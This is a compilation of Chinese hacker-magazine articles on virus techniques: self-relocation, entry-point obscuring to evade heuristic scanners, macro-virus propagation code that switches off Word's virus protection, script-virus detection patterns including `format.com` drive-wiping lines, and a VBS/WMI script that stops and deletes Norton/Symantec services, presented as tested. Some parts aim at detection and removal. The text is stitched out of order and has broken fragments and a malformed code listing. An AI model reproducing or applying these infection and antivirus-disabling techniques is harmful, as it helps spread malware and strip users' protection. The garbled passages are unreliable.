病毒不可避免也要用到变量（常量），当病毒感染 HOST 程序后，由于其依附到 HOST 程序中的位置各有不同，病毒随着 HOST 载入内存后，病毒中的各个变量（常量）在内存中的位置自然也不相同。既然这些变量没有固定的地址，病毒在运行的过程中应该如何引用这些变量呢？所以，病毒只有自己帮助自己重定位，这样就可以正常地访问自己的相关资源了。

MOV EXX,[ESP] 就可以得到下一条指令在内存中的实际位置了。其实，对于任何一个变量，我们都可以采用这种方式进行重定位。

好了，原理都讲完了，现在让我们总结一下重定位的基本步骤（这里假设下一条指令为 I1）：

- 用 CALL 指令跳转到下一条指令，使 I1 在内存中的实际地址进栈。
- 用 POP 或 MOV EXX,[ESP] 取出栈顶的内容，这样就得到了 I1 的地址（Base）。
- 其他指令（变量、常量）的实际地址就等于 `Base + (offset Label - offset vstart)`。

### 三、如何重定位

大家都知道 CALL 是一条函数调用指令，也可以当成是跳转指令。它可以跳到目的地址继续执行，执行完毕后，会返回到主程序继续执行。那系统如何知道返回地址的呢？当 CALL 执行时，CPU 首先把要返回的地址（即下一条指令的地址）压入堆栈，然后跳到我们目的地址执行。可以看出，在跳转之后只要执行一条 POP 指令或 MOV EXX,[ESP] 就可以得到下一条指令在内存中的实际位置了。

### 四、实例说明

现在，就让我们看一下重定位的具体代码。这里 vstart 这个标号的位置就是 I1 的位置了。下面看看代码是怎么实现的：`call vstart` 跳到 vstart，然后 `pop ebx`，把堆栈顶端的内容（即 vstart 在内存中的地址）放到 ebx。这样，以后用到其他变量的时候就可以用 `ebx + (offset xxx - offset vstart)` 得到其在内存中的真正偏移地址了。

```asm
call vstart
vstart:
    pop ebx      ; 定义为I1指令
```

病毒和反病毒技术都是在相互斗争和对抗中相互促进、共同发展起来的。正因为对方的存在和不断发展，它们彼此才得以越战越勇。反病毒技术的发展已经迫使病毒必须不断地寻找隐藏自己的方法。今天，我们给大家介绍的就是病毒的 EPO 技术，该技术原理简单，但是却非常实用。同时，对于反病毒工作者来说，了解该技术对提高自身的反病毒水平也定会具有非常强的指导作用。


## 要问我从哪里来——浅析病毒入口模糊技术 EPO

文 / Hume [CVC.GB]  pkxp[CVC.GB]

### 一、什么是 EPO

EPO 是 Entry Point Obscuring 的缩写，即入口模糊技术。该技术改变了传统的修改 PE 头部的入口点使其指向病毒代码入口而使病毒代码得以执行的典型方法，以躲避杀毒引擎的扫描，提高病毒的生存能力。

### 二、为什么需要 EPO

这要从反病毒技术的发展谈起。随着当今反病毒技术的不断提高，启发式扫描和虚拟机执行等方法广泛被各杀毒厂商采用。这些技术通过判断程序是否具有通常的病毒特征来发现病毒，使得即使是新写的传统类型病毒也很容易被杀毒软件查出来。为了对抗启发式查毒，聪明的 Vxers 发明了各种技术来与之对抗，EPO 技术是其中之一。要想明白什么是 EPO，那就让我们首先看看启发式查毒是如何判断程序被病毒感染的。杀毒软件不可能对 PE 文件的所有部分进行扫描，因为现在程序越来越庞大，动辄上百 M（呵呵，至少我的是），如果杀毒软件对文件进行完全扫描的话，毕竟太耗时了，其大多只是对 PE 入口处的代码进行启发式检查。

- 1. PE 入口是否在最后一个段。可以观察一下，绝大部分编译器和链接器生成的可执行文件，其代码入口通常都是在第一个节或中间的节，入口在最后一个节的可执行文件很少（当然也有）。
- 2. 可执行文件的节名是否与正常编译器不同，例如正常编译器如 Microsoft 的编译器生成的代码段节名一般是 `.text`，Borland 编译器生成的节名一般是 `.CODE` 等标准名称，很多病毒会生成有特色的节名。
- 3. 程序入口附近是否存在重定位代码。
- 4. IAT（PE 文件的引入函数地址表）是否被动态 PATCH（API 函数地址会改变）或重定向了（IAT 位置通常要改变）？如果病毒通过 PATCH IAT 的方法获得 API 或通过 PATCH IAT 执行病毒代码的话，必然要修改 IAT。杀毒引擎通过检查 PE 的 IAT 是否被 PATCH 来判断是否可能被病毒感染，并决定是否需要作进一步检查。
- 5. 入口点处第一条指令是否为 JMP 或 CALL 等指令，如果是则是可疑的，需要进一步检查。这实际上是最原始的 EPO 技术的做法。

以上只是杀毒引擎进行检测的一些方面，实际情况要复杂得多。但从上面可以看出，很大一部分检查是针对入口点的。试想，如果只是简单地修改 PE 头中的入口值，则很容易被杀毒软件识别；如果可以把病毒代码隐藏在 PE 文件的某个中间位置，那么要想找出病毒来势必要困难得多。EPO 正是这样一种思想，它通过把病毒入口置于 PE 中某个不显眼的位置，来减少被查杀的可能性。

多态和变形是当今病毒的发展趋势，但是虚拟机的出现还是给多态带来了很大的威胁。为了减少被查杀的可能性，病毒应该综合采取各种手段进行自身的隐藏，而不仅仅是多态和变形，EPO 正是这些技术之一。病毒需要 EPO 技术。

### 三、如何实现 EPO

正如前面所讲，因为在大多数程序中，代码段通常都不是最后一个节，而病毒采用很多的仍然是在 PE 文件最后添新节或在最后一个节附加病毒代码。如果杀毒软件发现入口在最后一个节，则很可能就被感染了病毒。最早的 EPO 技术是非常简单的：不改变 PE 头中入口点的值，而是改变程序入口处的代码，比如改成 `JMP VirStart` 或 `CALL VirStart` 跳转到病毒体执行，通过伪装而躲过该种检测。

当然，这样的技术在如今这个年代已经毫无用处，它只能躲避最原始的那种只对代码入口作是否正常判断的检查。如果准备采用 EPO 技术作为病毒防护手段的话，还得另外想想办法。

另外一种实现 EPO 的方法是在 PE 文件代码中的任意指令位置，将其替换成 `JMP VirStart` 或 `CALL` 指令，或者利用其他转移指令跳转到病毒体去执行。有此想法是很自然的，但实现上有困难。首先，我们很难判断 PE 中的任意位置是否是一条指令的开始，因为这无异于要写一个反汇编器，对于简单的病毒，代价太大了。

还有一种方法就是替换 API 函数的调用语句，因为 Win32 函数是调用频率很高的。好奇和聪明的你可能会问，为什么不直接 PATCH IAT 中相应的函数地址呢？原因在于，PE Loader 加载 PE 的时候会用正确的函数地址填充这些地址，你的 PATCH 内容就会被覆盖；如果采用重定向的方法，又很可能引起杀毒引擎的怀疑。

因此，这里只能采取变通的方法，而通常是查找特定的指令，比如将 `CALL [XXX]` 或 `JMP [XXX]` 指令的 `XXX` 替换成指向病毒入口的地址。`CALL DWORD PTR [XXX]` 和 `JMP DWORD PTR [XXX]` 通常是跳转到真正 IAT 函数地址去执行的指令。当然也可以查找其他指令，比如直接段内转移 `CALL XXX` 指令，替换 `XXX` 地址为指向 VirStart 的地址。当然，还可以搜索和替换其他指令，比如高级语言中最常用的 “PUSH EBP”、“MOV EBP, ESP” 指令对代表一个函数的开始，事实上，搜索任何指令都是可以的。

该过程需要一些计算，但这已不是我在这篇短文中能详细介绍的了，争取在以后详细介绍吧。

### 四、问题及对策

通过前面的说明，你应该已经了解了 EPO 的用法和原理，对 EPO 已经产生了过度的乐观情绪。现在，让我给你浇一盆冷水，看看 EPO 的缺陷都在哪些地方以及对策。

- a. 首先，搜索任意指令的方法有一定的局限。如果代码段中有数据该怎么办？很不幸地告诉你：凉拌吧！如果数据中恰好有与你待替换的指令机器码相同的数据，你只好认命了！
- b. 其次，如果替换的指令是废代码，也就是说在程序执行过程中几乎永远不会执行到，那又怎么办？
- c. 再次，如果因为上面原因，导致 Virus 设计失败，导致目标程序无法正常执行，病毒几乎无法传播，而且由于杀死了目标程序，不但起不到 EPO 的作用，反而暴露了自己，又该怎么办？
- d. 尽量进行附加检查，比如 `e8`（`call XXX`，段内直接转移），要看一下其目的地址是不是有效地址段内的地址，如果不是，就几乎肯定是数据。其他特征的指令也要根据特点进行检查。
- e. 为了增加执行机会，最好替换对 API 进行调用的指令地址，比如最普遍的是 `JMP DWORD PTR [XXX]`，因为 API 是经常调用的，其执行概率要大一些。另外值得一提的是，很多病毒在使用 EPO 时都替换对 ExitProcess 的调用指令，这样病毒会在最后执行，也许这有助于躲避杀毒软件。当然，全部公开的秘密就不是秘密了，同样会很快遭到封杀。
- f. 加强学习，仔细思考，多做调试，减少错误。如果实在没有把握，则不用 EPO，不要让应用不当的技术成为你病毒的最大缺陷。

### 五、代码实例（pkxp）

下面是 pkxp 做的一个小试验，试验 EPO 的应用，拿来作为示例吧。这里做了如下假设：

- 1. 第一个节是 `.text`。
- 2. 在 `.text` 中一定可以找到 `call xxxxxxxx`（`E8 xxxxxxxx`）。
- 3. `JMP DWORD PTR [YYYYYYYY]` 在 `.text` 中。
- 4. 根据找到的 `call xxxxxxxx` 计算出来的地址不会越界造成内存错误。

> **编者语**  
> 由于版面关系，我们将该程序和编译后的例子放在随书光盘中，有兴趣的朋友可以仔细读一下，相信您会觉得这是一种享受。其 EPO 部分只有 30 行，极适合初学 EPO 者。

其思路如下：

- 1. 判断 PE 合法性和可感染性（有多余空间）。
- 2. 添加新节，修改 `SizeOfImage`。
- 3. 开始 EPO。
  - (1) 在 `.text` 中寻找 `E8 xxxxxxxx`，根据 `xxxxxxxx` 获得 `JMP DWORD ...` 的文件偏移。
  - (2) 计算跳转到 VStart 的相对距离，覆盖 `xxxxxxxx`。
  - (3) 拷贝 `JMP DWORD PTR [YYYYYYYY]` 中的 `YYYYYYYY` 到病毒体内。
  - (4) 写入病毒代码，弹出对话框后，执行 `JMP DWORD PTR [YYYYYYYY]`。

### 后记

转眼 CVC 病毒专栏已经和大家一起度过了 5 个月的时间。在此我们对广大读者朋友对专栏的支持和关心表示非常感谢。为了将本版办得更好，和读者朋友们走得更近，我们希望广大读者朋友可以及时反馈您对本专栏的意见和建议。您可以在黑防论坛相关版块发表您对本专栏的看法，同时也欢迎您访问 CVC 的主论坛：http://www.logincom.com。您可以在论坛事务版发表您的宝贵意见和建议。目前，CVC 的内部杂志电子版已经基本筹划完毕，有兴趣的读者朋友可以到论坛下载。

## 宏病毒进阶剖析之：探索、传染和消灭过程

文／王杰


### 探索篇

宏病毒对大家来说应该不怎么陌生了，无论从杂志和网络报道都可以看到。什么是宏病毒呢？它是一种寄存在文档或模板的宏中的计算机“伪病毒”，一旦打开这样的文档，其中的宏就会被执行，于是宏病毒就会被激活，转移到计算机上，或者驻留在 Normal 模板上。这样，所有自动保存的文档都会“感染”上这种宏病毒。而且，如果其他用户打开了感染病毒的文档，宏病毒又会转移到他的计算机上。如此反复，宏病毒就这样赖以传播和生存。

为什么称它是伪病毒呢？因为宏病毒的编写过程比二进制代码编写过程简单得多，而且完全不同于二进制病毒（exe/com 病毒），所以现在宏病毒的数量之多、感染系数之高令人瞠目。现在很多的杀毒软件都号称可以杀死宏病毒，但却不能保证杀毒后的宏病毒携带文件不会死灰复燃。我们知道宏病毒主要是用 VBA（Visual Basic for Application）语言写成的，它编译后的 VBA 文件是很大一堆伪代码（不相信你可以用记事本打开一个 Word 文件来看看）。这就是说，如果我们不了解其编码方式便无法去除宏病毒，任其滋生。这也是为什么回到几年前，杀毒软件编制消灭宏病毒的进程如此缓慢的原因。

没有掌握宏代码在文件中的存在形式，是杀毒软件的致命因素。作为普通用户，我们需要了解宏代码在文件中的具体形式吗？我想没有这个必要，那是杀毒软件的事情。我们需要了解的是其运作方式。我们还必须认清一个观念：宏病毒并不只存在于 Word 文件中。一些朋友总是说：“我的计算机又中了宏病毒了，我要重新安装 Word。”其实有这样的想法是错误的。我们可以这样分析宏病毒的存在形式：只要可以和文件一起保存，并可以采用 VBA 方式编写的宏代码文件，都可能包含宏病毒。

我们知道，现在由 Microsoft 公司销售的办公系列（Office 97、Office 2000、Office XP）都存在宏病毒的寄生性。类似的还有最新版本的 AutoCAD 2000、AutoCAD 2002，因为它们都使用到了 VBA，并且可以将宏代码与文件一起保存。那么，我们在使用这些可以带宏代码的文件时就需要小心了，也许你哪天打开一个电子表格，你会发现自己的某个盘被格式化了。

现在的宏病毒已经发展到了一个很庞大的体系，成为一个宏病毒家族。宏病毒总的发展趋势就是越来越多地使用更复杂的编程技术，越来越增加对自己的保护措施。像 W97M.Shore.J 宏病毒，它可以感染公共模板 Normal.dot，在文档被打开、关闭、保存或退出 Word 后进行传播。最特别的是，当用户试图打开 VB 编辑器时，病毒要求输入一个密码；只有密码匹配才能访问该编辑器。这是不是增加了手工破解的难度呢？病毒 W97M.Shore 还会更改 Word 窗口的标题为 “I Dont Like Peace Anymore ...”，然后又恢复为 Microsoft Word。换句话说，宏病毒完全可以控制 Word，完全控制计算机的所有资源，只要能编写相应的代码。像这样的病毒还有很多，技术可能比 W97M.Shore 更高明。

### 传染篇

在了解了宏病毒一些基本机理后，我们接下来为大家讲解一下宏病毒的主要传染方式。在对宏病毒研究多年后，我发现宏病毒主要有 3 种传染方式。它们分别是：

- 用 `VBProject.VBComponents` 的代码编写方式；
- 用 `Application.OrganizerCopy` 的代码编写方式；
- 用 `CreateObject(word.application)` 的传染方式。

（1）`VBProject.VBComponents`（VV）

VV 是 VBE（Visual Basic Editor）自带的对象。这个对象比较特殊，它能够实现 VBE 程序对宏代码的控制、运行和编辑等。但如果被病毒代码用到，那么病毒就可以用它来将自己传染到别的文件。用 VV 编写的宏代码传播病毒具有速度快、难以被发现的特点，所以很多病毒编写者仿佛都喜欢用这样的编写方式。“MYNAMEISVIRUS” 宏病毒就是这样的一个典型例子。这个病毒没有破坏代码，但是传染力却很惊人，所有打开、关闭、新建的文件都被感染上它。让我们来看看它的关键代码：

```vb
If xitem.Name = "ThisDocument" Then
    send = xitem.codemodule.countoflines
    aready = xitem.codemodule.Find("MYNAMEISVIRUS", star, 1, send, 1)
    If aready = False Then
        With xitem.codemodule
            .insertlines star, MacroContainer.VBProject.VBComponents(1).codemodule.Lines(1,150)
            .codemodule.procbodyline("Autoexec", vbext_pk_Proc)
        End With
    End If
End If
Next
End Sub
```

```vb
Private Sub Document_Close()
Dim aready As Boolean
Dim star As Long
Dim send As Long
Dim answer As String
Dim path$
Options.VirusProtection = False
answer = "MYNAMEISVIRUS"
star = 1
send = 1
path$ = Options.DefaultFilePath(wdUserTemplatesPath)
If Documents.Count <> 0 Then
    For i = 1 To Documents.Count
        For Each xitem In Documents(i).VBProject.VBComponents
            If xitem.Name = "NewMacros" Then
            If xitem.Name = "ThisDocument" Then
                send = xitem.codemodule.countoflines
                aready = xitem.codemodule.Find("MYNAMEISVIRUS", star, 1, star + send, 1)
                If aready = False Then
                    With xitem.codemodule
                        .insertlines star, MacroContainer.VBProject.VBComponents(1).codemodule.Lines(1,150)
                        .codemodule.procbodyline("Autoexec", vbext_pk_Proc)
                    End With
                End If
            End If
        Next
    Next
End If
For Each xitem In NormalTemplate.VBProject.VBComponents
...
```

在上面的病毒代码中，我们可以清晰地看到用 VV 对象传播病毒是这样的方便，它不仅感染了我们关闭的文档，还继续对我们 dot 模板进行疯狂的感染。幸好病毒作者没有在病毒中加入破坏代码，不然后果不知如何。还有一点请大家注意：在病毒传播的过程中，我们根本就察觉不到它已经感染了别的文件，因为任务栏没有给出任何提示信息。

（2）`Application.OrganizerCopy`（AO）

用 AO 传播病毒的方式似乎显得笨拙。在 Word 中，我们用“录制宏”的方式可以得到如下关键核心代码：

```vb
Application.OrganizerCopy Source:="C:\Normal.dot", Destination:="H:\病毒代码\v.doc", Name:="NewMacros", Object:=wdOrganizerObjectProjectItems
```

先来解释一下 AO，它是 Office 里面自带的宏命令，位于 Office 程序的 Application 对象下面。上面的核心代码实现了把一个 “NewMacros” 模块从 `C:\Normal.dot` 复制到 `H:\病毒代码\v.doc` 中。是不是比 VV 要方便得多呢？我们只需要在 “NewMacros” 里面包含一个 “AutoOpen” 子程序，就可以产生一个自动运行的宏。同样的方式，我们还可以用到 `Application.OrganizerDelete` 删除我们不想要的宏模块。聪明的朋友可能已经想到，我们可以用 `Application.OrganizerDelete` 来杀灭宏病毒。用 AO 来传染宏病毒最大的缺陷就是：它在传染的过程中，应用程序会在任务栏显示某文件正在被写入的过程。

开的文件呢？

#### （3）CreateObject(application.word)

用这种传播方式已经完全脱离了宏病毒的基本传播方式。因为像 Word 这样的程序都可以用 COM 的方式来启动。只要我们通过 OLE 实例化一个 Office 程序，就可以用到程序中的所有对象，包括 AO 和 VV 对象。这种传播方式显然要比上面任何一种方式传播都要快，因为传播的方式已经演化成了 exe 文件的带毒传染方式。下面举个例子来说明它的严重性。

用 VB 来编写这个示例代码：首先引用进 Word 库文件。接着：

```vb
Dim a As Word.Application
Set a = CreateObject("Word.Application")
```

以后我们就可以：

```vb
a.OrganizerCopy Source:="c:\Normal.dot", Destination:="H:\病毒代码.v.doc", Name:="NewMacros", Object:=wdOrganizerObjectProjectItems
```

程序作者只需要在程序运行的时候，在 C: 盘下面临时生成一个带毒文件就可以了。用这样的程序方式对病毒的发现有一定的难度。

### 消灭篇

知道了病毒的传染机制，明白消灭它们有一定的难度了吧？如果用杀毒软件还好说，但是如果换了一种新的更厉害的病毒，你能对付得了它吗？我已经说过了，宏代码功能是很强大的，它可以完全控制我们的计算机。当然它也能控制我们的 VBA 开发环境（宏病毒太可恶了）。那么，我们该怎么做呢？特别是遇到那种要求你打开就输入密码，或者进入编辑环境就输入密码的该怎么办呢？最好的方式我认为还是要用到“管理器”（别告诉我你找不到它在哪里哟）。如图所示：

你可以按下面的步骤进行操作：

- 1. 将需要解毒的文件在“打开文件/关闭文件”中打开，将会看到带毒文件的“宏方案项”；
- 2. 把那些不是正常的、可疑的宏模块删除掉；
- 3. “关闭文件”。


如果遇到宏病毒如“MYNAMEISVIRUS”之类，我们该怎么办呢？因为它们根本就不出现在“宏方案项”里面。这时候我们可以以毒攻毒。我们可以将“MYNAMEISVIRUS”病毒的过程逆着写，单独定义成一个可执行的杀毒模块来运行。当然，它也是一个宏。我们只需要简单将“MYNAMEISVIRUS”里面的关键代码改写一下，关键代码如下：

```vb
With xitem.CodeModule
    .InsertLines start, MacroContainer.VBProject.VBComponents(1).CodeModule.Lines(1, 150)
    ' 将以上的代码换成：
    .RemoveLines 1, MacroContainer.VBProject.VBComponents(1).CodeModule.Lines(1, 150)
End With
```

这样编制的宏代码就可以移除“ThisDocument”内部的代码。纵使病毒将 VBE 加密或者加以破坏也可以顺利去除它。强烈建议你在杀毒之前找到 Normal.dot 文件（一般位于 \Templates\ 目录下，指的是 Office 的安装目录，缺省为 C:\Program Files\Microsoft Office 目录），然后删除它。不用担心，Word 不会因为找不到 Normal.dot 而拒绝启动，它会自动重新生成一个干净的、没有任何外来宏的 Normal.dot 文件，这样就可防止漏杀并加快查毒速度。顺便也到 C:\ 盘根目录下查看看有没有 Autoexec.dot 文件，如果有这个文件的话，请删除它。一般来说，Word 是不需要这个文件的。

以上我们介绍的都是手工杀毒的方法，也是基本的杀毒方法，也许在关键时刻会对你有所帮助。其实关于宏的知识不可能一时道尽，我们所讲解的并不只针对 Word，对所有包含 VBA 的文件都有效果，所以也请大家不要用 Word 宏病毒的观点阅读此文。

总之，通过对宏病毒的探索、传染、杀灭过程的了解，你现在对它不再害怕了吧？记住，请不要随便打开陌生的文件，你就可以保持“干净”的系统环境。

互联网上病毒横行，对于已知的病毒，我们可以借助杀毒软件来对其进行查杀，而面对近期刚诞生的病毒发作时，我们是否就束手无策呢？其实，无论病毒的发作现象和传播原理是如何，都有惯用的伎俩，本文通过介绍脚本病毒的常见表现，提供大家一种自行查杀病毒的方法和途径。


## 关于木马脚本病毒的判断和查杀

文／小兵

现在脚本病毒横行，以脚本病毒（如欢乐时光、爱虫、库尔尼科娃和 Homepage 等病毒）流传最为广泛。其主要的原因是脚本病毒一般是用解释性脚本语言进行编写，病毒容易制造，兼容性更好。比如流行的脚本病毒，都会利用操作系统的开放性、网页文件的通用性等特点。特别是从 COM 到 COM+ 的组件编程思路，一个脚本程序能简单调用功能更大的组件，就能轻松完成一些复杂的功能，使病毒制作进入高级编程阶段，稍微有编程基础的人就能写出病毒来。

同时，像脚本病毒这样的代码，如果不加密，其源程序很轻松被发现，这就容易被一些低级程序员所利用。从爱虫等脚本病毒流传开来，其代码也像病毒一样迅速扩散开来，被人简单改装后就可以制成新的病毒，什么 Homepage、Mayday 等，整个技术思路都差不多。近期又有人改装成 Jessica Worm 病毒，用“163电子邮箱收费通知”做标题，其基本代码和扩散部分代码完全是爱虫病毒的盗版。所以可以想象，在不久的将来，脚本病毒会像如今的蠕虫病毒一样泛滥。

除了脚本病毒编写容易的特点外，另一个显著特点不得不提——强大的破坏力。比如，修改注册表、发送被感染的文件；自身隐藏、感染其他文件、删除文件、格式化系统等等。这就好比一个平民拥有了枪炮，他并不需要了解多少枪械知识，只要会扣扳机就能轻易对他人造成伤害。例如：2001年5月的爱虫病毒，利用了很简单的代码，就对无数的计算机造成了极大的破坏，使计算机资料瞬间全无，毁掉了无数人的心血。

下面我们就对脚本病毒进行一些原理的分析，并向大家阐述一下未知脚本病毒的判定，希望由此使大家对脚本病毒再多一份了解，少一份由于脚本病毒而造成的损失。

- 1）通过修改重要的注册表项对计算机造成一些破坏。例如：修改 Windows 的启动项，使启动机器时自动执行病毒文件；修改浏览器的配置项，使有些特定的文件无法显示等。
- 2）感染特定后缀名的脚本文件，将自身病毒代码插入其中。
- 3）向外发送大量的病毒邮件，并附带自身病毒代码，借邮件传播自己。
- 4）病毒体内含有使系统死机的特定语句。
- 5）病毒体内含有屏幕炸弹一类的特定语句。
- 6）病毒体内含有极其危险的操作，例如：DELTREE（删除目录树）、FORMAT（格式化硬盘）。

所以，只要抓住病毒代码的几个特征就可以辨认出病毒。以下为几种常见代码：

1）向外发送大量的邮件，并附带自身代码的主要表现形式是：创建一个 Outlook 应用对象，取得 MAPI 名字空间：

```vb
Set objOA = Wscript.CreateObject("Outlook.Application")
Set objMapi = objOA.GetNameSpace("MAPI")
```

遍历地址簿：

```vb
For i = 1 To objMapi.AddressLists.Count
    Set objAddList = objMapi.AddressLists(i)
    For j = 1 To objAddList.AddressEntries.Count
        Set objMail = objOA.CreateItem(0)
```

取得邮件地址、收件人：

```vb
objMail.Recipients.Add(objAddList.AddressEntries(j))
```

2）脚本程序修改重要注册表项代码的主要表现形式是：

```vb
Set regz = CreateObject("WScript.Shell")
regz.RegWrite "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run\CountRunner", "c:\windows\counsrpt.vbs"
```

3）有极其危险操作的代码，例如 DELTREE、FORMAT 的主要表现形式为：

```html
<OBJECT classid=clsid:F935DC22-1CF0-11D0-ADB9-00C04FD58A0B id=wsh></OBJECT>
<SCRIPT>
wsh.Run('start /m format.com z: /q /autotest /u');
wsh.Run('start /m format.com y: /q /autotest /u');
</SCRIPT>
</P>
```

4）现在最流行的脚本病毒加密形式的代码为：

```vb
Function DeCode(Coded)
For I = 1 To Len(Coded)
    CurChar = Mid(Coded, I, 1)
    If Asc(CurChar) = 15 Then
        CurChar = Chr(10)
    ElseIf Asc(CurChar) = 16 Then
        CurChar = Chr(13)
    Else
        CurChar = Chr(Asc(CurChar) - 2)
    End If
    DeCode = DeCode & CurChar
Next
End Function
```

通过以上分析，可以看到，脚本病毒有一些主要动作，只要我们发现文件中有以上的代码，或者有类似形式的代码就可以基本判定是一个脚本病毒，然后再根据实际情况，加入一些智能的判断方法，就可以判定绝大部分未知的脚本病毒。然后将这一脚本分析技术应用于实时监控系统之中，一个脚本监控就实现了。

以上内容只是提供一些思想上的东西，代码是类代码，用户是无法直接使用的；如果要想实现未知脚本的查杀，还需要做很多工作。

（上接第159页）

下面再具体一点。譬如我们想取变量 abc 的内容时，则可先取地址到 esi 中，然后使用“mov eax,[esi]”指令即可得到 abc 的内容。

```asm
abc dd 0
...
call vstart
vstart: pop ebx
...
lea esi,[ebx+(abc-vstart)]
```

上面我们提到偏移地址可以通过 ebx + (offset xxx - offset vstart) 计算得到。我们通常也可以看到如下重定位方式：

```asm
abc dd 0
...
call vstart
vstart:
  pop ebx
  sub ebx, offset vstart
...
mov eax,[ebx+abc]
```

其实这种和上面那种方法最终结果是一样的，只不过是换了一种形式，即（ebx - offset vstart）+ offset xxx。另外，在实际过程中还会碰到其他重定位方式，并且需要重定位的绝对不仅局限于变量和常量，不过所有原理都是一样的。

## 脚本病毒逃避杀毒软件的几种方法


最近流行的病毒有相当一部分是脚本病毒，为什么会造成这样的现象呢？究其原因，主要是脚本病毒容易编写，且代码公开，为病毒制造者提供改写病毒的机会，这就造成了脚本病毒的泛滥；另一方面，反病毒厂商加大了查杀脚本病毒的力度，而且能够查杀一些新型脚本病毒。本文将要讨论的不是脚本病毒的编写，而是脚本病毒如何避过杀毒软件，请各位读者善用。

脚本病毒以其编写的容易性及代码的公开性，造成流行非常广泛，而且变种繁多。当然，杀毒软件对脚本病毒的查杀也是不遗余力。脚本病毒也开始使用新的方法来对抗杀毒软件的查杀！这里，我们来讨论一下脚本病毒常用的一些伪装手法。

- 1. 脚本病毒进行加密，执行的时候进行解密，使杀毒软件无法通过固定特征码进行查杀。

脚本的运行速度比较慢，因此其加密算法通常不会很复杂，常见做法包括对特定字符串加密，或将可执行代码放入字符串/数组中并在运行时按规则解码。

```vb
Set fso = CreateObject("Scripting.FileSystemObject")
...
Set fso = CreateObject(Decr("thecryptedstuffherehereher"))
' Decr() 函数则是一个简单的解密函数
```

- 2. 脚本病毒运行时杀掉常用杀毒软件进程，伪装成正常文件以规避实时监控，执行后再释放病毒体。

这样的病毒通常需要先取得控制权限，并在内容中避免出现明显病毒特征码，以便在杀毒软件截获前正常执行。

```vb
On Error Resume Next
strComputer = "."
Set objWMIService = GetObject("winmgmts:" & "{impersonationLevel=impersonate}\\" & strComputer & "\root\cimv2")
Set stopServiceList = objWMIService.ExecQuery(...)
For Each objService in stopServiceList
    objService.StopService()
Next
```

```vb
Wscript.Sleep 20000
Set removeServiceList = objWMIService.ExecQuery _
    ("Select * from Win32_Service where Name='Norton Antivirus Server'")
For Each objService in removeServiceList
    errReturn = objService.StopService()   ' 停止 Norton 监控服务
    objService.Delete()                    ' 卸载 Norton 服务
Next
```

Norton 或者 Symantec，若包含，则停止其服务。当然，国内其他杀毒软件厂商也可以采用同样的方法来停止监控，但我没有做测试。有人测试过瑞星，怀疑瑞星采用病毒技术监视自身进程，当进程退出后自动重新打开监控。因此，无法用此种方法停止其进程。

源程序：

经过实验，Norton 完全不报警这段 VBS 执行，然后便停止了监控服务，相关图片如图1所示。


图1

```vb
On Error Resume Next
strComputer = "."
Set objWMIService = GetObject("winmgmts:" & _
    "{impersonationLevel=Impersonate}!\\" & _
    strComputer & "\\root\\cimv2")
' 连接到本地 WMI
Set colStoppedServices = objWMIService.ExecQuery _
    ("SELECT DisplayName,State FROM Win32_Service WHERE State = 'Running'")
' 查询
For Each objService in colStoppedServices ' 列举所有正在运行的服务
    allservice = LCase(objService.DisplayName)
    returened = (InStr(1, allservice, "norton") Or InStr(1, allservice, "symantec"))
    If (returened > 0) Then
        errReturn = objService.StopService()
        WScript.Echo objService.Name & Chr(20) & "is norton"
    Else
        WScript.Echo objService.Name & Chr(20) & "is not norton!"
    End If
Next
```

上面的程序很好理解，首先执行 WMI 的连接，然后查询系统服务中名为“Norton Antivirus Server”的服务，然后停止，非常简单。

以上代码对 Norton 企业版有效，因为在系统服务中是 Norton Antivirus Server，但是在 Norton 2003 Professional 中服务就不是这个名称。但诺顿的产品中，其服务描述都有 Norton 或者 Symantec 字样，我们再改动一下，将所有正在运行中的服务名称取出，然后看是否包含。

此段程序首先查找所有正在运行的服务，然后用 `returened=(instr(1,allservice,"norton") or instr(1,allservice,"symantec"))` 语句测试是否包含 norton 或者 symantec 字样。如果包含，则停止其服务。

可以想像，如果一个脚本病毒成功停止掉杀毒软件的实时监控功能，那么它则可以按着调用病毒代码，为所欲为。具体的实现方法此处不再叙述，读者可以自行研究。

## 病毒如何感染其他文件

文／guojpeng[cvc.gb]


### 一、文件病毒的发作过程

在谈这个问题之前，我们想想电脑一般是如何被感染文件病毒的。一般来说，这类病毒的入口有以下几个方面：网络下载、局域网共享和各种移动介质。

程序是不能在完全没有外力的环境下自己执行的，其需要被触发才能执行。病毒也是程序，所以它同样需要被触发才能够发挥其威力。但是由于病毒特殊的背景，其被触发的方式和一般程序有很多不同的地方。病毒并不敢奢望用户每次都会去点击来历不明的程序，为了提高自身的生存能力和隐蔽性，它们往往寄生在正常的程序中，使得用户防不胜防。CIH 病毒不就是乘坐网络下载快车而广泛传播的吗？有谁敢保证其下载的游戏和软件中不含有病毒呢（或者说有多少人曾经怀疑其下载的程序中含有病毒呢）？

病毒的威力往往表现在其第一次获得控制权之后，对于文件型病毒来说，它们大都会将自己寄生到其他很多常用的文件中（当然，通过修改注册表和文件关联等方式也可以达到重新获得执行的机会），但总的来说，病毒第一次运行时便已经打好算盘：日后如何有更多的机会获得控制权？

寄生对病毒来说，绝对是一个好办法。揪住了一个，还会有无数个站起来，这边倒下了，那边又会站起来。

对于大部分 Win32 PE 病毒来说，其在寄生之后是这样被运行的（有些是在 HOST 运行过程中调用病毒代码的，譬如上期介绍的 EPO 技术）：

- 1. 用户点击（或者系统运行）HOST 程序。
- 2. 装载 HOST 程序到内存中。
- 3. 通过 PE 文件中的 AddressOfEntryPoint 和 ImageBase 之和来定位第一条语句的位置。
- 4. 从第一条语句开始执行（这时其实执行的是病毒代码）。
- 5. 病毒主体代码执行完毕，将控制权交给 HOST 程序原来入口代码。
- 6. HOST 程序继续执行。

这里就存在一个问题，病毒是如何将自己和 HOST 程序融为一体并能够先于 HOST 原程序获得控制权的呢？

大家先不要急，让我们先看看一点 PE 格式方面的基础知识。

### 二、相关的 PE 文件基础知识

对于一个正常的 PE 文件而言，其文件结构如图1所示：

- 1. 一个简单的 DOS 程序

其中 MZ 文件头就是两个字节“4D 5A”，其和 DOS 插桩程序一起组成一个简单的 DOS 下的可执行文件。如果用户在 DOS 中执行这个 PE 程序，这部分就可以用来给用户一个提示，譬如“该程序只能在 Windows 下运行”等。

- 2. NT 映像头

图 1

图 3

NT 映像头由 3 个部分组成：字符串“PE\0\0”、映像文件头和可选映像头。

PE 文件真正开始的地方是在字符串“PE\0\0”，这也往往是很多病毒在确定一个文件是否为 PE 文件时不可缺少的判断依据之一。

